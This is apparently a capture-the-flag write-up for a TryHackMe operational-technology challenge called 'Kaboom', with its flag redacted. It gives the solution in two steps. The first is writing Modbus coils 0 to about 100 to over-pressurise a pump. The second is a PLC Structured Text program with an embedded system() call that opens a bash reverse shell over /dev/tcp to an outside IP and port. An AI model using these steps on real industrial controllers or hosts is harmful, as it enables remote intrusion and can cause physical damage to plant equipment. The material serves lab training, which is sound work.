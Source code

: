 ```yaml
---
title: Kaboom
categories: OT
tags: 
draft: true
completedDuringEvent: true
submitted: true
flag: THM{REDACTED}
---
```

> This challenge drops you into the shoes of the APT operator: With a single crafted Modbus, you over-pressurise the main pump, triggering a thunderous blow-out that floods the plant with alarms. While chaos reigns, your partner ghosts through the shaken DMZ and installs a stealth implant, turning the diversion’s echo into your persistent beachhead.

---

## Modbus

Write coils from address `0` to `100?` with values `1`.

## Ubuntu Access

```
PROGRAM prog0
  VAR
    var_in : BOOL;
    var_out : BOOL;
  END_VAR

  var_out := var_in;

  { system("bash -c 'bash -i >& /dev/tcp/10.17.37.98/4444 0>&1'"); }
END_PROGRAM


CONFIGURATION Config0

  RESOURCE Res0 ON PLC
    TASK Main(INTERVAL := T#50ms,PRIORITY := 0);
    PROGRAM Inst0 WITH Main : prog0;
  END_RESOURCE
END_CONFIGURATION
```
